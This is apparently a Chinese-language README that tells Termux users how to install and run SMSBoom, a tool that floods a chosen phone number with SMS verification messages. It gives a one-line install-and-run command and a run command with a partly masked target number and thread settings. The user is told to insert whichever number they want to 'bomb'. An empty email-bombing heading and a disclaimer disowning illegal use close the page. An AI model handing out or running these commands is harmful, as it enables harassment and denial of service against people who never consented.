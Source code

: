   ## 概述
  
- 如果你还没有下载termux可以点击[这里](https://f-droid.org/en/packages/com.termux/)
- 若你没有科学环境可以自行搜索下载，或者点击[这里](https://m.youxibao.com/app/15333.html)
  
- 假如你在代码使用的过程中出现
>Do you want to continue? [Y/n]
>
- 直接回车enter即可
- 
  ## 一键代码使用
  ### 短信轰炸
  `pkg install git && pkg install python && pkg install openssl && git clone https://github.com/AdminWhaleFall/SMSBoom.git/ && cd SMSBoom && pip install -r requirements.txt && python smsboom.py`
- 直接粘贴代码进入即可，后续可以直接使用下列指令
- 
  `cd SMSBoom;python smsboom.py run -t 64 -p 184****9269 -f 60 `
  将手机号替换为你需要轰炸的手机号

 ### 邮箱轰炸

## 免责声明
本库为对SMSBOOM的简单调用提供，仅供参考，禁止用于商业及非法用途。使用smsboom造成的事故与损失，与作者无关


